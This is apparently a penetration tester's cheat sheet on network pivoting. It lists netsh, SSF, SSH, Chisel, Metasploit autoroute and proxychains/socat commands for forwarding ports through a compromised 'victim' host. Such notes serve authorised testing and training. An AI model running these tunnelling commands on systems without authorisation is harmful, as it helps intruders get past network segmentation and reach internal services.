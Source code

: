 # Pivoting

### Windows

#### Native

```text
netsh advfirewall firewall add rule name="<rulename>" dir=in action=allow protocol=TCP localport=8080
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<addr>
```

#### SSF

Server:

```text
./ssfd -p 8080
```

Client:

```text
./ssf -L 9000:127.0.0.1:80 -p 8080 127.0.0.1
./ssf -R 9000:127.0.0.1:80 -p 8080 127.0.0.1
```

### Linux

#### Static port forwarding \(single port, execute on attacker\)

```bash
ssh <user>@<target> -L 127.0.0.1:8888:<targetip>:<targetport>
```

#### Dynamic Port Forwarding \(execute on attacker\)

```bash
ssh -D <localport> user@host
```

#### Remote forwarding \(execute on victim\)

```bash
ssh -r -R <lport>:<ip>:<rport> user@attacker
```

#### Jump Host

```bash
ssh -J jumpuser1@jumphost1,jumpuser2@jumphost2,...,jumpuserN@jumphostN user@host
```

#### Chisel

Forward Port 8089, listening on a localhost on the victim, out to the attacker:

```text
victim> ./chisel server -p 5000
attacker> ./chisel client 192.168.127.201:5000 8089
```

### Metasploit

Remote Forward \(opens 6443 on remote and forwards to local 192.168.1.1:443\):

```text
portfwd add -R -p 6443 -l 443 -L 192.168.1.1
```

Note: Chaining multiple forwards often leads to Metasploit timeouts/crashes. In this case its best to just forward a single hop via metasploit and another technique for the next hop \(e.g. default windows forwarding\).

#### MSSQL

Get a session on a box that can reach the server, then run `autoroute -s addr/subnet` alternativly you can add these manually via `route add addr/subnet <session>` Start the socks4a proxy module. Now we can use socat to make the server locally available:

```text
proxychains socat TCP4-Listen:1433,fork TCP:<>:1433
```

Now a windows machine in the same network can connect via windows authentication:

```text
C:\Program Files (x86)\Microsoft SQL Server Management Studio 18\Common7\IDE>runas /netonly /user:<>\<> "Ssms.exe -S <local box>"
```

An alternative to autoroute is to use this syntax outside of any sessions:

```text
route add <>/<> <session id>
```

